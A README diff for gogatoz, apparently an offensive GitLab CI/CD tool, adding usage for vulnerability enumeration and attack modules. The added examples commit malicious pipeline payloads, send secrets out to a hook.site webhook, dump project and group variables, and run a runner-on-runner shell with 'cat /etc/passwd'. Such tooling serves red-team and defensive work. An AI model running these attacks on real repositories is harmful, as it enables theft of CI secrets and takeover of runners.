

Before and after one commit to mr-pmillz/gogatoz, a Markdown page: README.md, the part around one of its changes. Shown at 93% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -36,45 +76,80 @@ export GITLAB_URL=https://gitlab.com
 
 ```bash
-go build -o gogatoz .
-./gogatoz version
-./gogatoz search --query "runner" --per-page 20 --max-pages 1
+# Basic search
+gogatoz search -q "runner" --per-page 50 --max-pages 0
+
+# Filter by language + topic
+gogatoz search -q "ci" --language go,python --topic security,devops --format jsonl
+
+# Filter by code content
+gogatoz search -q "runner" --code-content "tags: self-hosted" --code-per-page 10
+
+# Filter by file path pattern
+gogatoz search -q "deploy" --path-pattern "ci/**/deploy?.yml" --path-ref main
+
+# Membership/ownership filters
+gogatoz search -q "infra" --membership --visibility private
 ```
 
-- Use --json for machine‑readable output.
+Key flags: `--query`, `--language`, `--topic`, `--code-content`, `--path-pattern`, `--path-exists`, `--visibility`, `--membership`, `--owned`, `--archived-only`, `--format`, `--output`. Set `--max-pages 0` to fetch all pages.
 
-Code content filter example (filters projects to those whose repository contains CI keywords):
+### enumerate
+
+Scan projects for CI/CD configuration vulnerabilities. Detects 37 finding types including include risks, runner exposure, MR-triggered jobs, variable injection, artifact poisoning, plaintext secrets, fork risks, script injection, LOTP tool execution, OIDC token exposure, cache poisoning, and more.
 
 ```bash
-./gogatoz search -q "runner" --code-content "tags: self-hosted" --code-per-page 10 --code-max-pages 1 --json
+# Scan from file
+gogatoz enumerate --input targets.txt --concurrency 16 --timeout 20s --json
+
+# Deep include resolution
+gogatoz enumerate --input targets.txt --deep --follow-includes --include-depth 5
+
+# Expand groups into projects
+gogatoz enumerate --group myorg/platform --group-recursive --format jsonl
+
+# With runners and protected branch info
+gogatoz enumerate --input targets.txt --runners --protected-branches --score
+
+# Output as SARIF + HTML
+gogatoz enumerate --input targets.txt --format html --output report.html --sarif-output scan.sarif
+
+# Pipe from search
+gogatoz search -q "runner" --format jsonl | gogatoz enumerate --input - --only-findings --json
 ```
 
-Path pattern filter examples (filter projects to those whose repo paths match a glob):
+Key flags: `--input`, `--group`, `--groups`, `--concurrency`, `--timeout`, `--follow-includes`, `--include-depth`, `--deep`, `--runners`, `--runners-scope`, `--protected-branches`, `--score`, `--filter-false-positives`, `--only-findings`, `--redacted`, `--log-scrape`, `--format`, `--sarif-output`, `--glsast-output`, `--bloodhound-export`, `--webhook-url`.
+
+### attack
+
+Exploit CI/CD misconfigurations with 15+ attack modules.
+
+**CI Pipeline Injection:**
 
 ```bash
-# Projects containing a .gitlab-ci.yml anywhere in the repo
-./gogatoz search -q "runner" --path-pattern ".gitlab-ci.yml" --json
+# Commit CI from file
+gogatoz attack -t group/project --commit-ci --ci-file payload.yml --branch exfil-branch
 
-# Projects with any deploy YAML under a ci/ subtree (supports ** and ?)
-./gogatoz search -q "deploy" --path-pattern "ci/**/deploy?.yml" --path-ref main --path-per-page 100 --path-max-pages 10 --json
+# Commit a built-in payload template
+gogatoz attack -t group/project --commit-ci --payload secrets --webhook https://hook.site/xxx
+
+# Render payload locally without committing
+gogatoz attack --payload-only --payload ror-shell --tags self-hosted --cmd 'id; uname -a'
 ```
 
-Language/topic filter examples and JSONL export:
+**Secrets Exfiltration:**
 
 ```bash
-# Filter to projects that contain Go or Python code (any-of via /languages)
-./gogatoz search -q "runner" --language go,python --format jsonl --output results.jsonl
+# Via CI job with RSA encryption
+gogatoz attack -t group/project --secrets --branch exfil --pubkey-file key.pem
 
-# Filter to projects that have topic/tag "security" or "devops"
-./gogatoz search -q "ci" --topic security,devops --per-page 100 --max-pages 0
+# Dump project/group variables via API
+gogatoz attack -t group/project --secrets --project-vars --group-vars --group-id myorg --json
 ```
 
-Note: --max-pages=0 fetches all pages until there are no more.
-
-Self-hosted/internal instance example for search:
+**Runner-on-Runner (RoR):**
 
 ```bash
-# Prefer the global --gitlab-url flag (per-command --instance is deprecated)
-./gogatoz search --gitlab-url https://gitlab.internal.local -q "ci" \
-  --path-pattern ".gitlab-ci.yml" --insecure-skip-tls-verify
+gogatoz attack -t group/project --commit-ci --payload ror-shell \
+  --tags self-hosted,linux --cmd 'whoami; cat /etc/passwd'
 ```
 
````
Also changed, not shown: other parts of README.md (+312 -292 lines).
